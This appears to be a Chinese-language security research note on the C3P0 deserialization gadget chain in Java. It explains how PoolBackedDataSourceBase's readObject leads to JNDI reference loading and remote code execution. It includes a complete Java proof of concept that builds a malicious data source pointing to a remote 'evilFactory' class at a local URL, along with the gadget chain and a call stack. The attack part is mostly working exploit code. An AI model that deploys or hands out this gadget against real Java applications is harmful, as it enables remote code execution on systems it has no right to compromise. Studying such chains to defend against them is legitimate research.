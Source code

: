 - [C3P0 Gadget](#c3p0-gadget)
  - [依赖](#依赖)
  - [c3p0](#c3p0)
    - [Gadget chain](#gadget-chain)
  - [POC](#poc)

# C3P0 Gadget
## 依赖
```
com.mchange:c3p0:0.9.5.2
com.mchange:mchange-commons-java:0.2.11
```
## c3p0
C3P0是一个开放源代码的JDBC连接池,在`PoolBackedDataSourceBase#readObject()`方法中会调用ObjectInputStream中的`Object#getObject()`方法,其中要求该object需要是`IndirectlySerialized`类的子类.
![](2023-02-22-10-55-47.png)  
而在`ReferenceIndirector`类中有一个静态内部类`ReferenceSerialized`正好继承了`IndirectlySerialized`,并且其`getObject()`方法中存在JNDI注入.  
![](2023-02-22-10-59-37.png)  
其中可以看到如果`contextName`不为空,則会`lookup()`,然后最后返回的是调用`ReferenceableUtils.referenceToObject()`.  
![](2023-02-22-14-55-15.png)  
而`ReferenceableUtils.referenceToObject()`明显是一个根据引用来远程加载工厂类再进行构造指定对象的方法,也就是JNDI注入利用reference来RCE的方式.
再来看看`PoolBackedDataSourceBase`类的序列化`writeObject`流程.  
![](2023-02-22-15-00-34.png)
如果`connectionPoolDataSource`属性不能被序列化时,那么会对`connectionPoolDataSource`属性
调用一次`Indirector#indirectForm()`方法.  
![](2023-02-22-15-00-12.png)  
这其中返回的其实就是根据`connectionPoolDataSource`对象的`getReference`方法返回的引用构造了内部私有的`ReferenceSerialized`类对象.  
### Gadget chain
```
 * com.mchange.v2.naming.ReferenceableUtils->referenceToObject
 * com.mchange.v2.naming.ReferenceIndirector$ReferenceSerialized->getObject
 * com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase->readObject
```
## POC
核心思路則是将`PoolBackedDataSourceBase`的`connectionPoolDataSource`属性设置为一个继承于`ConnectionPoolDataSource`类的子类对象.   
```java
import com.mchange.v2.c3p0.PoolBackedDataSource;
import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;

import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.PrintWriter;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;

public class C3P0 {
    public static Object getGadget() throws IllegalAccessException, NoSuchMethodException, InvocationTargetException, InstantiationException, NoSuchFieldException {
        Constructor con = PoolBackedDataSource.class.getDeclaredConstructor(new Class[0]);
        con.setAccessible(true);
        PoolBackedDataSource obj = (PoolBackedDataSource) con.newInstance(new Object[0]);
        Field conData = PoolBackedDataSourceBase.class.getDeclaredField("connectionPoolDataSource");
        conData.setAccessible(true);
        conData.set(obj, new PoolSource("evilFactory", "http://127.0.0.1:8089/"));
        return obj;

    }

    private static final class PoolSource implements ConnectionPoolDataSource, Referenceable {

        private String className;
        private String url;

        public PoolSource ( String className, String url ) {
            this.className = className;
            this.url = url;
        }

        public Reference getReference () throws NamingException {
            return new Reference("evilFactory", this.className, this.url);
        }

        public PrintWriter getLogWriter () throws SQLException {return null;}
        public void setLogWriter ( PrintWriter out ) throws SQLException {}
        public void setLoginTimeout ( int seconds ) throws SQLException {}
        public int getLoginTimeout () throws SQLException {return 0;}

        @Override
        public Logger getParentLogger() throws SQLFeatureNotSupportedException {
            return null;
        }

        @Override
        public PooledConnection getPooledConnection() throws SQLException {
            return null;
        }

        @Override
        public PooledConnection getPooledConnection(String user, String password) throws SQLException {
            return null;
        }
    }
}

```
![](2023-02-22-15-08-09.png)
调用栈:  
```
referenceToObject:93, ReferenceableUtils (com.mchange.v2.naming)
getObject:118, ReferenceIndirector$ReferenceSerialized (com.mchange.v2.naming)
readObject:211, PoolBackedDataSourceBase (com.mchange.v2.c3p0.impl)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeReadObject:1184, ObjectStreamClass (java.io)
readSerialData:2296, ObjectInputStream (java.io)
readOrdinaryObject:2187, ObjectInputStream (java.io)
readObject0:1667, ObjectInputStream (java.io)
readObject:503, ObjectInputStream (java.io)
readObject:461, ObjectInputStream (java.io)
main:12, Gadget
```